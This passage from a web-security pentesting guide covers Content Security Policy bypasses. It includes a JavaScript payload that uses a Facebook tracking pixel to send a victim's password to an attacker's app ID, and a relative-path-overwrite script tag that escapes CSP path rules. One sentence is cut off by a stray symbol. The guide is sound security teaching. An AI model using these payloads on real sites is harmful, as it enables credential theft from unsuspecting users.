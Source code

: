 Then, on the victim side, you execute the following code to initialize the Facebook tracking pixel to point to the attacker's Facebook developer account app-id and issue a custom event like this:

```JavaScript
fbq('init', '1279785999289471');​ // this number should be the App ID of the attacker's Meta/Facebook account
fbq('trackCustom', 'My-Custom-Event',{​
    data: "Leaked user password: '"+document.getElementById('user-password').innerText+"'"​
});
```

As for the other seven third-party domains specified in the previous table, there are many other ways you can abuse them. Refer to the previously [blog post](https://sensepost.com/blog/2023/dress-codethe-talk/#bypasses) for additional explanations about other third-party abuses.

### Bypass via RPO (Relative Path Overwrite) <a href="#bypass-via-rpo-relative-path-overwrite" id="bypass-via-rpo-relative-path-overwrite"></a>

In addition to the aforementioned redirection to bypass path restrictions, there is another technique called Relative Path Overwrite (RPO) that can be used on some servers.

For example, if CSP allows the path `https://example.com/scripts/react/`, it can be bypassed as follows:

```html
<script src="https://example.com/scripts/react/..%2fangular%2fangular.js"></script>
```

The browser will ultimately load `https://example.com/scripts/angular/angular.js`.

This works because for the browser, you are loading a file named `..%2fangular%2fangular.js` located under `https://example.com/scripts/react/`, which is compliant with CSP.

∑, they will decode it, effectively requesting `https://example.com/scripts/react/../angular/angular.js`, which is equivalent to `https://example.com/scripts/angular/angular.js`.

By **exploiting this inconsistency in URL interpretation between the browser and the server, the path rules can be bypassed**.

The solution is to not treat `%2f` as `/` on the server-side, ensuring consistent interpretation between the browser and the server to avoid this issue.

Online Example:[ ](https://jsbin.com/werevijewa/edit?html,output)[https://jsbin.com/werevijewa/edit?html,output](https://jsbin.com/werevijewa/edit?html,output)

### Iframes JS execution

{{#ref}}
../xss-cross-site-scripting/iframes-in-xss-and-csp.md
{{#endref}}

### missing **base-uri**

If the **base-uri** directive is missing you can abuse it to perform a [**dangling markup injection**](../dangling-markup-html-scriptless-injection/).
